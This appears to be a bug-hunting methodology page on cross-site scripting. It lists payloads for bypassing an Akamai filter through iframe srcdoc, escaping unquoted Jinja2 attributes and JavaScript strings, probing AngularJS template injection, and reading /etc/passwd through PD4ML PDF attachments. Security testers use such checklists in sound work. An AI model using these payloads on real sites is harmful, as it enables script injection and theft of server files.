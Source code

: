 ##### If there is reflected value in the iframe src but akamai blocks it, we can try to bypass it using below payload
````
link=qwe"srcdoc="\u003ce<script%26Tab;src=//dom.xss>\u003ce</script%26Tab;e>

````
![Screenshot from 2023-06-16 18-53-58](https://github.com/Sameer484/methodology/assets/110039044/58c56999-42da-4fcb-a447-b11f9e223984)

#### If you found jinja2 templating engine being used , then see if the double quote is placed when using templating syntax in attribute. If directly {{name}} is being used then we can use "x eventhandler=alert(1)" to execute xss. Using space we can escape the attribute.
````
<input type={{name}}>         ==> vulnerable code
<input type="{{name}}" >      ==> well secure code
````
---
#### Quick tips
- See the reflected value and open inspect element. Search(ctrl+f) for the entered keywords and trace where is it being used.
- If the value is being set to variable , we can escape it and enter javascript
  ````
  var a= "hacked"    //hacked is searched keyword in search bar and it is being assigned here like this.

  we can escape it using
     hacked";alert(2)//
  ````

- If no value are reflected in the response , then test for DOM based XSS. Open DOM Invador and enter the canary value in the search bar or anywhere in the query parameter.
- See if the website is built with Angular js. Now see if the reflected payload is inside the  ng-app directive{\<div ng-app> hacked(this is reflected value)}, check for {{7*7}} CSTI and if DOM is reflected with 49, then it's confirmed that CSTI is possible. 
 
  ---
 - XSS Basic Payload  ( anything'"<x</   )
## XSS in PDF generation using PD4ML library
The normal javascript injection doesn't work with pd4ml, but there is way to add attachment to the pdf. This way we can read internal files.
`<pd4ml:attachment src=”file:///etc/passwd”><pd4ml:attachment>`

